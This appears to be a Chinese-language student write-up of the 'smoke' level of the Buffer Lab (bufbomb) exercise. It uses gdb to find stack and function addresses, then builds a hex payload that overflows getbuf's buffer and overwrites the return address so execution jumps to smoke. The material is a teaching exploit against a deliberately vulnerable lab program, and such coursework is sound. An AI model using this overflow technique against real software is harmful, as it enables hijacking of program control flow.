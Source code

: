 > 目标：Bufbomb中一个正常情况下不会被执行的函数smoke，在getbuf返回时跳到smoke函数执行。

```c
void smoke()
{
    entry_check(0); /* Make sure entered this function properly */
    printf("Smoke!: You called smoke()\n");
    validate(0);
    exit(0);
}
```

要将smoke函数的地址放入getbuf的返回地址，需要构造合适的输入字符串。通过阅读getbuf的汇编代码可以知道输入字符串首地址被存放在内存栈`-0xc(%ebp)`中，运行程序，输入测试字符串，并打印出该字符串作验证。

```shell
gdb bufbomb
(gdb) b getbuf
(gdb) run -t SAXXXXXXXX
Starting program: /home/ubuntu/桌面/bufferlab/bufbomb -t SAXXXXXXXX
Team: SAXXXXXXXX
Cookie: 0x58932f5a
...
(gdb) x/s $ebp-0xc
0xffffb96c:     "hello world"
```

所以可以知道字符串首地址`0xffffb96c`。用smoke函数的地址覆盖getbuf的返回地址，还需要找到函数smoke函数的首地址：

```shell
(gdb) p/x &smoke
$1 = 0x8048e20
```

在test的汇编代码中，getbuf的下一行指令的地址为`0x804901e`，该地址在调用getbuf后被保存在`%ebp+0x4`中

```assembly
08049000 <test>:
...
 8049019:	e8 c2 ff ff ff       	call   8048fe0 <getbuf>
 804901e:	89 c2                	mov    %eax,%edx
...
```

```shell
(gdb) x/x $ebp+4
0xffffb97c:     0x0804901e
```

从`0xffffb96c`覆盖到`0xffffb97c`，需要先填充 16字节字符串内容，然后填充smoke函数的地址：`20`,`8e`,`04`,`08`（小端机器），如果是 64 位机器则需要继续覆盖后面为 0。所以我们需要构造字符串十六进制表示：

```assembly
// exploit0.txt
31 31 31 31 31 31 31 31 
32 32 32 32 32 32 32 32 
20 8e 04 08 00 00 00 00
```
